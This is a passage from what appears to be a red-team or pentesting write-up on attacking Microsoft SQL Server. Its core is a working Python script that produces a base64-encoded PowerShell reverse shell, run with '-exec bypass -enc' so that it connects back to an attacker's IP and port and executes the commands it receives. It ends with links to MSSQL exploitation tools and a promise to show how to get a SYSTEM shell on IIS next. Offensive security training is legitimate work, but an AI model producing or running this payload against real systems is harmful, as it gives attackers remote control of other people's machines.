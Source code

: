 
- Let’s convert this powershell command to base64 in utf-16 for powershell
```python
#!/usr/bin/env python
import base64 
import sys

if len(sys.argv) < 3:
	print('usage : %s ip port' % sys.argv[0])
	sys.exit(0)
	
payload="""
$c = New-Object System.Net.Sockets.TCPClient('%s',%s);
$s = $c.GetStream();[byte[]]$b = 0..65535\|%%{0};<br>while(($i = $s.Read($b, 0, $b.Length)) -ne 0){<br>    $d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);<br>    $sb = (iex $d 2>&1 \| Out-String );<br>    $sb = ([text.encoding]::ASCII).GetBytes($sb + 'ps> ');<br>    $s.Write($sb,0,$sb.Length);<br>    $s.Flush()<br>};<br>$c.Close()<br>""" % (sys.argv[1], sys.argv[2])<br><br>byte = payload.encode('utf-16-le')<br>b64 = base64.b64encode(byte)<br>print("powershell -exec bypass -enc %s" % b64.decode())
```


- run it and get a shell
![screenshot](pics/rev_shell.png)

## Other tools to use

- There is some interresting projects to exploit mssql, here is some of them :
    - [https://github.com/NetSPI/ESC](https://github.com/NetSPI/ESC)
    - [https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)
    - [https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/MSSQL/Program.cs](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/MSSQL/Program.cs)
- Interresting informations :
    - [https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)
    - [https://ppn.snovvcrash.rocks/pentest/infrastructure/dbms/mssql](https://ppn.snovvcrash.rocks/pentest/infrastructure/dbms/mssql)
    - [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md)
    - [https://h4ms1k.github.io/Red_Team_MSSQL_Server/#](https://h4ms1k.github.io/Red_Team_MSSQL_Server/#)
    - [https://github.com/Jean-Francois-C/Database-Security-Audit/blob/master/MSSQL%20database%20penetration%20testing](https://github.com/Jean-Francois-C/Database-Security-Audit/blob/master/MSSQL%20database%20penetration%20testing)

Next time we will have fun with IIS and we will get a nt authority\system shell on servers.